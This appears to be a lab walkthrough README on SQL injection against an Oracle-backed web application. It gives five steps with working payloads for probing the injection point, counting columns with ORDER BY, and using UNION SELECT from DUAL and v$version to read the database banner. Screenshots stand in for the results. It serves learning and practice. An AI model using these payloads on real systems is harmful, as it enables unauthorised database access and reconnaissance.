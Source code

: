 # SQL-injection-attack-querying-the-database-type-and-version-on-Oracle

> # (1) To be sure that it has an sql vulnerability: url' -> internal server error. That means it has a vulnerability
![image](https://user-images.githubusercontent.com/59218362/208419556-a6f17621-237e-48f5-b8b2-6ed3921c833a.png)




> # (2) To know the number of column: 'ORDER BY 3-- -> internal server error. It means there are 2 columns
![image](https://user-images.githubusercontent.com/59218362/208419394-038bbc5a-d0b3-43b3-a354-62f0b5d009fb.png)
![image](https://user-images.githubusercontent.com/59218362/208419254-4f09eb82-d337-4da7-b75c-7421953397dd.png)




> # (3) To know which column is data retrieving: ‘UNION SELECT NULL,'Data'--. But got error. It is because the database is oracle
![image](https://user-images.githubusercontent.com/59218362/208419051-fa25dbc1-36fd-4a9e-96ff-9ddbb13abde3.png)




> # (4) To know data retrieve in oracle database: 'UNION SELECT 'sajib','rajib' FROM DUAL--. See we find out 2 both 2 column are retrieving data
![image](https://user-images.githubusercontent.com/59218362/208418870-00c353a4-c3b8-457c-bea7-3cc0eb951824.png)




> # (5) To know the version of oracle database: 'UNION SELECT banner, banner FROM v$version--. Here two banner is for the 2 columns.
![image](https://user-images.githubusercontent.com/59218362/208418752-2b3a8c05-feac-4081-9b64-f13c018b5a91.png)

